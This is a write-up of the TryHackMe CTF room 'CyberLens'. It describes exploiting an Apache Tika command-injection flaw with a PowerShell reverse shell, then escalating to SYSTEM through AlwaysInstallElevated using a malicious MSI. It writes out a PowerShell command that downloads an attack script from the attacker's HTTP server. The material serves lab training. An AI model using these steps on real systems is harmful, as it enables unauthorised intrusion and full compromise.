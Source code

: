 # CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration:

![](./screenshots/ping.png)

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

![](./screenshots/nmapquick.png)

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

![](./screenshots/nmapdetails.png)

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

![](./screenshots/webroot.png)

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

![](./screenshots/extractor.png)

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

![](./screenshots/options.png)

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

![](./screenshots/nmap61777.png)

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is [an article from Rhino Security Labs](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/), written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

![](./screenshots/googletika.png)

I ended up using the exploit from [the Rhino Security Labs github](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335), written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have [a forked version](https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py) that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

![](./screenshots/exploit.png)

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

![](./screenshots/powerup.png)

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

![](./screenshots/regquery.png)

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

![](./screenshots/msfvenom.png)

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

![](./screenshots/rooted.png)

Thanks to TeneBrae93 for the creation of this challenge!